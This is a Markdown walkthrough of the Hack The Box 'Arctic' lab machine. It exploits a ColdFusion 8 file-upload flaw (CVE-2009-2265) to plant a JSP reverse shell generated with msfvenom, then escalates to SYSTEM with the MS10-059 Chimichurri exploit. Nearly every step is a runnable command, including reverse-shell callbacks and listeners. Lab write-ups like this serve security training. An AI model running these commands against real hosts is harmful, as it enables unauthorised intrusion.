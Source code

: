 # 🧊 HTB: Arctic Walkthrough
[Done](Done)
## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- **Root Method**: MS10-059 exploit via Chimichurri

https://www.youtube.com/watch?v=Gfus5di2EF4

---

## 🔍 Reconnaissance

### 🔎 Full TCP Scan
```bash
nmap -p- --min-rate 10000 -oA nmap-alltcp 10.10.10.11
```

### 🔎 Version & Script Scan
```bash
nmap -sC -sV -p 135,8500,49154 -oA nmap-service 10.10.10.11
```

---

## 🌐 [Web Enumeration](HTTP)

### 🌐 Port 8500 Analysis
```bash
curl http://10.10.10.11:8500/
# or
nc 10.10.10.11 8500
```

Revealed ColdFusion 8 interface:
- `/CFIDE/administrator/enter.cfm` → Login panel
- `/userfiles/file/` → Web root accessible

---

## ⚔️ Exploitation (Initial Foothold)

### Method 1: CVE-2009-2265 – Unauthenticated File Upload

#### 🧬 Generate JSP Reverse Shell
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f raw > shell.jsp
```

#### 🗂 Upload Shell via ColdFusion vuln
```bash
cp shell.jsp shell.txt
curl -X POST -F "newfile=@shell.txt;type=application/x-java-archive;filename=shell.txt" \
"http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/shell.jsp%00"
```

#### 🔁 Trigger Reverse Shell
```bash
curl http://10.10.10.11:8500/userfiles/file/shell.jsp
```

### 🧲 Netcat Listener
```bash
rlwrap nc -nvlp 443
```

---

## 🧪 Privilege Escalation

### 📋 Check System Info
```bash
systeminfo
```

**No hotfixes installed** — prime for kernel exploits.

### 🔎 Enumerate with Windows Exploit Suggester
```bash
# On Kali
git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git
cd Windows-Exploit-Suggester
python3 windows-exploit-suggester.py --update

# Save output from systeminfo
python3 windows-exploit-suggester.py --database 2020-XX-XX-mssb.xls --systeminfo sysinfo.txt
```

**Selected**: [MS10-059.exe](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe)

### 📤 Transfer Exploit Binary
```bash


# On Arctic shell
net use \\10.10.14.14\share
copy \\10.10.14.14\share\Chimichurri.exe .
```

### 💣 Execute Exploit
```bash
Chimichurri.exe 10.10.14.14 443
```

### 🧲 Netcat Listener
```bash
rlwrap nc -nvlp 443
```

---

## 🏁 Flags

### 🧑‍💻 User
```bash
type C:\Users\tolis\Desktop\user.txt
```

### 👑 Root
```bash
type C:\Users\Administrator\Desktop\root.txt
```